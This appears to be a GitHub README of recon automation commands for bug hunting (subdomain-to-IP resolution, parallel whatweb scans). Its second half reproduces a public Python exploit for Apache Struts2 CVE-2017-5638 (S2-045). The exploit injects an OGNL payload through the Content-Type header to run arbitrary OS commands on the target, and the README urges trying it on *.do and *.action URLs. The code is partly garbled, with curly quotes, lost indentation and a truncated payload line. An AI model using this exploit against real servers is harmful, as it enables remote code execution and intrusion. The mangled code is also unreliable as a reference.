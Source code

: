 <h1 align="center">👋 H1 there,  make your work easy with these automation commands</h1>                                                                                    # Automation Commands

### Find IP Address from list of subdomains 
``` while IFS= read -r line;do nslookup -type=A $line;done < subdomains.txt  | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' | anew ips.txt ``` 

### GNU parallel, you can run multiple whatweb scans simultaneously,
    cat http_200.txt | parallel whatweb {}
    
  ## Explanation:
  - cat http_200.txt outputs all URLs.
  - parallel whatweb {} runs whatweb on each line ({} is replaced by the URL).
  - By default, parallel runs as many jobs as you have CPU cores.
    
  ## Limit the number of concurrent jobs
    cat http_200.txt | parallel -j 10 whatweb {}
  - -j 10 limits it to 10 simultaneous scans (adjust based on your CPU/network).
  ## Show which URL is being scanned
      cat http_200.txt | parallel --tag whatweb {}
  - --tag prefixes the output with the URL, so you know which result belongs to which target.
   ## Save output to a file
       cat http_200.txt | parallel --tag whatweb {} > whatweb_results.txt```
  - All results are saved in whatweb_results.txt for later analysis.

---
# Web Vulnerability
if you see *.do and *.actions files extention in urls must try this using curl command in Content-Type header 



Public Exploit code for Exploiting CVE 2017–5638 (Source: Github)
#!/usr/bin/python
```
# -*- coding: utf-8 -*-

import urllib2

import httplib

def exploit(url, cmd):

payload = “%{(#_=’multipart/form-data’).”

payload += “(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).”

payload += “(#_memberAccess?”

payload += “(#_memberAccess=#dm):”

payload += “((#c>

payload+=”(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).”

payload += “(#ognlUtil.getExcludedPackageNames().clear()).”

payload += “(#ognlUtil.getExcludedClasses().clear()).”

payload += “(#context.setMemberAccess(#dm)))).”

payload += “(#cmd=’%s’).” % cmd

payload+=”(#iswin=(@java.lang.System@getProperty(‘os.name’).toLowerCase().contains(‘win’))).”

payload += “(#cmds=(#iswin?{‘cmd.exe’,’/c’,#cmd}:{‘/bin/bash’,’-c’,#cmd})).”

payload += “(#p=new java.lang.ProcessBuilder(#cmds)).”

payload += “(#p.redirectErrorStream(true)).(#process=#p.start()).”

payload+=”(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).”

payload += “(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).”

payload += “(#ros.flush())}”

try:

headers = {‘User-Agent’: ‘Mozilla/5.0’, ‘Content-Type’: payload}

request = urllib2.Request(url, headers=headers)

page = urllib2.urlopen(request).read()

except httplib.IncompleteRead, e:

page = e.partial

print(page)

return page

if __name__ == ‘__main__’:

import sys

if len(sys.argv) != 3:

print(“[*] struts2_S2–045.py “)

else:

print(‘[*] CVE: 2017–5638 — Apache Struts2 S2–045’)

url = sys.argv[1]

cmd = sys.argv[2]

print(“[*] cmd: %s\n” % cmd)

exploit(url, cmd)
```

more Commands comming SOON......

